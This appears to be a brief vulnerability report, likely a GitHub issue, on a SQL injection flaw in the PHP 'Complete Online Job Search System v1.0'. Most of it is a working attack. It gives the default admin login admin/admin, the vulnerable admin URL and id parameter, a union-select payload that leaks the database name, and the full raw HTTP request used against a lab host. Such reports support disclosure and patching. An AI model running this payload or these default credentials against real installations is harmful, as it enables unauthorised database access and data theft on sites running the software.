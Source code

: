 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝阳

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/company/index.php?view=edit&id=

Vulnerability location: /eris/admin/company/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849041-4b0d81d6-8f1f-4a07-9166-ae5e670e336d.png)

![image](https://user-images.githubusercontent.com/54017627/170848995-09be03d4-6073-4810-afbc-053ede963d39.png)
